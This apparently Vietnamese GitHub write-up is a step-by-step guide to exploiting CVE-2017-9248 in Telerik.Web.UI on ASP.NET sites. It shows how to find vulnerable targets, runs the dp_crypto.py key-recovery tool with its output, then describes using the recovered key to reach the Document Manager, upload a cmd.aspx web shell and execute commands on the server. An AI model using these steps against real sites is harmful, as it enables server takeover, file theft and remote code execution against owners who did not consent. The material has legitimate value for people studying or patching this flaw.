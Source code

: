 # Khai thác lỗ hổng ứng dụng Web qua Telerik Web Ui trên Framework Asp.Net
Đây là CVE 2017-9248, lỗ hổng bảo mật này cực kỳ nghiêm trọng, tồn tại do mã hóa yếu trong tệp tin Telerik.Web.UI.dll (Telerik UI for ASP.NET AJAX components). Khai thác lỗ hổng này hacker có thể giải mã ra key (Telerik.Web.UI.DialogParametersEncryptionKey and/or the MachineKey), từ đó có được đường link quản trị nội dung tệp tin và có thể tải tệp tin lên máy chủ nếu cấu hình cho phép (mặc định là cho phép). Lỗ hổng này tồn tại ở các phiên bản từ 2012.3.1308 đến 2017.1.118 (.NET 35, 40, 45).

##Cách xác định lỗ hổng:
Mở source web bằng cách Kích phải View page source hay Ctrl+U sau đó bấm Ctrl +F search với từ khóa “Telerik.Web.UI”:  
![image](https://user-images.githubusercontent.com/59444526/177038531-c2af3a07-2e45-4f3e-9914-7548dca10889.png)

OK, và bên dưới là danh sách các phiên bản có thể bị khai thác 2013.1.220 =>2017.2.503  
Trước khi thực hiện exploit, các bạn xác định được tập tin “Dialog Handler” bằng cách request
https://www.example.com/Telerik.Web.UI.DialogHandler.aspx, nếu kết quả bạn nhận lại được là chuỗi “Loading the dialog…” thì boom bạn đã đi đúng hướng.  
![image](https://user-images.githubusercontent.com/59444526/177038610-73a30d87-7ced-4c20-adcf-48fb14fe78b1.png)

## Chạy mã khai thác
*root@Sugib3o~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9*  

*dp_crypto by Paul Taylor / Foregenix Ltd*  
*CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise*  

*Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx*  
*to find key of length [48] with accuracy threshold [9]*  
*using key charset [01234567890ABCDEF]*  

*Key position 01: {D} found with 31 requests, total so far: 31*  
*Key position 02: {3} found with 10 requests, total so far: 41*  
*Key position 03: {A} found with 35 requests, total so far: 76*  
*Key position 04: {D} found with 46 requests, total so far: 122*  
*<------------------------ SNIPPED ------------------------>*  
*Key position 45: {B} found with 50 requests, total so far: 1638*  
*Key position 46: {3} found with 36 requests, total so far: 1674*  
*Key position 47: {3} found with 50 requests, total so far: 1724*  
*Key position 48: {F} found with 57 requests, total so far: 1781*  
*Found key: D3AD[redacted]B33F*  
*Total web requests: 1781*  
*2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]*  

Bằng cách truy cập liên kết "Document Manager", chúng tôi thấy rằng giờ đây chúng tôi có quyền truy cập vào tất cả các tệp và thư mục của máy chủ web. Quan trọng hơn, chúng tôi thấy rằng chúng tôi có thể tải các tệp tùy ý lên máy chủ.  
![image](https://user-images.githubusercontent.com/59444526/177039103-5d23d135-9509-4967-ba53-0e19edccbd96.png)
Đây là ví dụ về tệp shell cmd.aspx đã tải lên.
![image](https://user-images.githubusercontent.com/59444526/177039127-f56a5cdf-adb0-4818-b724-ae547d05e45d.png)
Và đây là một ví dụ về thực thi lệnh bằng cách sử dụng trình shell đã tải lên.  
![image](https://user-images.githubusercontent.com/59444526/177039182-afe9824e-eaca-44ba-9f6e-b99579f1931b.png)

